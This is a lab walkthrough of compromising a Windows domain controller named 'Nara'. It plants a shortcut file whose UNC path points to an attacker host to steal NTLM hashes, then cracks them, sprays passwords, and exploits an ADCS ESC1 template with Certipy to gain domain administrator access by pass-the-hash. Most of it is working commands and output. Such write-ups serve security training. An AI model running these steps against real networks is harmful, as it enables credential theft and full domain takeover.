










## Machine Summary:

Nara focuses on exploiting permissive share permissions to trigger NTLM credential theft and escalating privileges via Active Directory Certificate Services (ADCS). We first identify an SMB service with null authentication enabling read and write access to the `nara` share. Reviewing `Important.txt` indicates active file monitoring by internal users, allowing us to perform an NTLM theft attack using a malicious `.lnk` shortcut file to capture and crack the NetNTLMv2 hash for `Tracy.White`. Domain enumeration with BloodHound reveals that `Tracy.White` possesses `GenericAll` rights over the `Remote Access` group, allowing us to add our account to the group and establish a WinRM session. Once on the host, we locate an encrypted `automation.txt` file and decrypt its DPAPI-protected PowerShell `SecureString` to reveal a cleartext password. Password spraying across domain accounts yields a hit for `Jodie.Summers`, who belongs to the `CA Enrollment` group. Further ADCS enumeration with Certipy reveals an ESC1 vulnerability in the `NaraUser` certificate template. By requesting a certificate with an administrative Subject Alternative Name (SAN), we authenticate via PKINIT to retrieve the Domain Administrator's NTLM hash and obtain full compromise.
## Recon
### Nmap Scan Results
```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-26 12:33:00Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: nara-security.com, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=Nara.nara-security.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:Nara.nara-security.com
| Not valid before: 2023-07-30T14:09:26
|_Not valid after:  2024-07-29T14:09:26
|_ssl-date: 2026-09-26T12:34:14+00:00; -1s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: nara-security.com, Site: Default-First-Site-Name)
|_ssl-date: 2026-09-26T12:34:14+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=Nara.nara-security.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:Nara.nara-security.com
| Not valid before: 2023-07-30T14:09:26
|_Not valid after:  2024-07-29T14:09:26
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: nara-security.com, Site: Default-First-Site-Name)
|_ssl-date: 2026-09-26T12:34:14+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=Nara.nara-security.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:Nara.nara-security.com
| Not valid before: 2023-07-30T14:09:26
|_Not valid after:  2024-07-29T14:09:26
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: nara-security.com, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=Nara.nara-security.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:Nara.nara-security.com
| Not valid before: 2023-07-30T14:09:26
|_Not valid after:  2024-07-29T14:09:26
|_ssl-date: 2026-09-26T12:34:14+00:00; -1s from scanner time.
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-09-26T12:34:14+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=Nara.nara-security.com
| Not valid before: 2026-09-25T12:30:20
|_Not valid after:  2027-03-27T12:30:20
| rdp-ntlm-info:
|   Target_Name: NARASEC
|   NetBIOS_Domain_Name: NARASEC
|   NetBIOS_Computer_Name: NARA
|   DNS_Domain_Name: nara-security.com
|   DNS_Computer_Name: Nara.nara-security.com
|   DNS_Tree_Name: nara-security.com
|   Product_Version: 10.0.20348
|_  System_Time: 2026-09-26T12:33:54+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
49737/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: NARA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-time:
|   date: 2026-09-26T12:33:57
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
```

An initial Nmap scan reveals standard Active Directory Domain Controller services running on the target, including DNS (port 53), Kerberos (port 88), LDAP/s (ports 389/636/3268/3269), SMB (port 445), and WinRM (port 5985).

Script scanning identifies the target's FQDN as `Nara.nara-security.com`. We update our local hosts file accordingly:
```bash
$ echo "192.168.238.30 Nara.nara-security.com NARA nara-security.com"| sudo tee -a /etc/hosts 
```
## Initial Access - NTLM Theft

Null authentication checks with NetExec show read and write permissions on the `nara` SMB share:
```bash
$ nxc smb 192.168.238.30 -u '.' -p '' --shares
```



Connecting via `smbclient` with null credentials reveals an `Important.txt` file in the root directory:
```bash
$ smbclient -U '.' '\\192.168.238.30\nara'
```
```bash
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jul 30 09:31:58 2023
  ..                                DHS        0  Sat Sep 26 07:30:32 2026
  Documents                           D        0  Sun Jul 30 09:03:13 2023
  Important.txt                       A     2200  Sun Jul 30 09:05:31 2023
  IT                                  D        0  Sun Jul 30 11:22:50 2023

		7699711 blocks of size 4096. 3987536 blocks available
smb: \> get Important.txt
Get file Important.txt? y
getting file \Important.txt of size 2200 as Important.txt (3.9 KiloBytes/sec) (average 3
```

The contents of `Important.txt` direct employees to regularly review all documents uploaded to the shared folder.



Having write access to `\\192.168.238.30\nara\Documents` positions us well against an automated or human user actively opening files within the share. Because the note does not specify what file types are being reviewed, we can deploy an LNK redirection attack to coerce an SMB authentication attempt and capture the monitoring user's NetNTLMv2 hash for offline cracking.

When a user browses a folder containing a shortcut (`.lnk`) file, Windows Explorer automatically attempts to render its icon or parse its metadata. If the icon path points to an external SMB server via a UNC path, Windows initiates an outbound SMB connection, exposing the client's NetNTLM hash.

### LNK Generation
#### Windows (.lnk generation)
From a Windows environment, a shortcut can be generated via PowerShell:
```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\temp\important.lnk")
$lnk.TargetPath = "\\<ATACKERIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

#### Linux (.lnk generation)
Alternatively, `ntlm_theft` can generate malicious file payloads directly on Linux:
- https://github.com/Greenwolf/ntlm_theft

```bash
$ python /opt/hax/windows-exploits/ntlm_theft/ntlm_theft.py --generate lnk --server 192.168.45.249 --filename important
```

### Credential Capture & Cracking

With the malicious `.lnk` file prepared, we start Responder on our VPN interface to capture inbound authentication requests:
```bash
$ sudo responder -I tun0 -v
```

We then upload `important.lnk` to the `Documents` subfolder:
```bash
$ smbclient -U '.' '\\192.168.238.30\nara'
```
```bash
Try "help" to get a list of possible commands.
smb: \> cd Documents\
smb: \Documents\> ls
  .                                   D        0  Sat Sep 26 08:16:56 2026
  ..                                  D        0  Sat Sep 26 08:13:54 2026

		7699711 blocks of size 4096. 3769344 blocks available
smb: \Documents\> put important.lnk
```

Shortly after uploading, Responder captures a NetNTLMv2 hash for the user `NARASEC\Tracy.White`:


We run Hashcat against `rockyou.txt` using mode `5600` (NetNTLMv2) to crack the hash, recovering the cleartext password `zqwj041FGX`:
```bash
$ hashcat -m 5600 tracy.white.ntlm /opt/wordlists/rockyou.txt
```



### Active Directory Enumeration & Shell Access

Using the recovered credentials, we run `rusthound` to collect Active Directory data for BloodHound analysis:
```bash
$ rusthound-ce -d nara-security.com -u tracy.white -p zqwj041FGX -c All --zip
```



Additionally, we can extract a clean user list using `ldapsearch`:
```bash
$ ldapsearch -x -H ldap://<DC_IP> -D "tracy.white@nara-security.com" -w 'zqwj041FGX' -b "DC=nara-security,DC=com" "(objectClass=user)" sAMAccountName > adusers.txt
```

Analyzing the BloodHound data reveals that `Tracy.White` has `GenericAll` control over the `Remote Access` group as well as the `REMOTE` Organizational Unit.


Using `net rpc`, we add `Tracy.White` to the `Remote Access` group to grant WinRM access rights:
```bash
net rpc group addmem "Remote Access" "Tracy.White" -U "nara-security.com"/"Tracy.White"%"zqwj041FGX" -S 192.168.238.30
```

We can now authenticate via `evil-winrm` and capture `local.txt`:
```bash
$ evil-winrm-py -i 192.168.238.30 -u tracy.white -p 'zqwj041FGX'
```



## Privilege Escalation - ESC1

### Local Enumeration
While inspecting user directories, we discover an `automation.txt` file located in `C:\Users\tracy.white\Documents`:
```powershell
*Evil-WinRM* PS C:\Users\tracy.white\Documents> type automation.txt
Enrollment Automation Account
01000000d08c9ddf0115d1118c7a00c04fc297eb0100000001e86ea0aa8c1e44ab231fbc46887c3a0000000002000000000003660000c000000010000000fc73b7bdae90b8b2526ada95774376ea0000000004800000a000000010000000b7a07aa1e5dc859485070026f64dc7a720000000b428e697d96a87698d170c47cd2fc676bdbd639d2503f9b8c46dfc3df4863a4314000000800204e38291e91f37bd84a3ddb0d6f97f9eea2b
```

The structured hex string indicates a PowerShell `SecureString` object encrypted via DPAPI.
### DPAPI SecureString Decryption:
Because DPAPI leverages keys managed under the current user context, we can decrypt the `SecureString` directly within our `evil-winrm` PowerShell session without needing external master keys:
```powershell
# Load the encrypted SecureString 
$SecureString = "01000000d08c9ddf0115d1118c7a00c04fc297eb..." | ConvertTo-SecureString 

# Extract the plaintext password via NetworkCredential
$Plaintext = [System.Net.NetworkCredential]::new("", $SecureString).Password 

# Display the recovered password
$Plaintext
```

Executing this returns the cleartext password `hHO_S9gff7ehXw`.

Because the file context does not specify a target user, we spray this password against our previously enumerated user list using NetExec:
```bash
nxc smb 192.168.238.30 -u reaper-logs/ad_users.txt -p 'hHO_S9gff7ehXw'
```



The password spray succeeds for user `Jodie.Summers`.

### ADCS Enumeration & ESC1 Exploitation

Checking BloodHound shows that `Jodie.Summers` is a member of the `ENROLLMENT` group, which holds `GenericAll` permissions over the `NaraUser` certificate template.


We run Certipy to enumerate Active Directory Certificate Services (ADCS) for vulnerable templates:
```bash
certipy find -u 'jodie.summers' -p 'hHO_S9gff7ehXw' -dc-ip 192.168.238.30  -text -stdout -vulnerable
```

```bash
Template Name                       : NaraUser
Display Name                        : NaraUser
Enabled                             : True
Client Authentication               : True
Enrollee Supplies Subject          : True
[!] Vulnerabilities
  ESC1                              : Enrollee supplies subject and template allows client authentication
```

ESC1 occurs when a certificate template allows low-privileged users to supply an arbitrary Subject Alternative Name (SAN) while permitting Client Authentication. This enables an attacker to request a certificate on behalf of a Domain Administrator.

Using `certipy req`, we request a certificate using the `NaraUser` template and specify the `Administrator` account in the SAN (`-upn`):

```bash
$ certipy-ad req -username "Jodie.Summers" -p "hHO_S9gff7ehXw" -template NaraUser -dc-ip 192.168.209.30 -ca NARA-CA -upn 'Administrator@nara-security.com' -dns Nara.nara-security.com -debug

[*] Saved certificate and private key to 'administrator.pfx'
```

This generates `administrator.pfx`.
### Full Domain Compromise

We authenticate against PKINIT using the generated PFX file to retrieve the NT hash for the `Administrator` account:

```bash
certipy auth -pfx administrator_nara.pfx -dc-ip 192.168.241.30

Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@nara-security.com'
    [1] DNS Host Name: 'Nara.nara-security.com'
> 0
[*] Using principal: administrator@nara-security.com
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@nara-security.com': aad3b435b51404eeaad3b435b51404ee:d35c4ae45bdd10a4e28ff529a2155745
```

Using the recovered NT hash, we authenticate via `evil-winrm` to obtain administrative access and read `proof.txt`:
```bash
evil-winrm-py -i 192.168.238.30 -u administrator -H d35c4ae45bdd10a4e28ff529a2155745
```



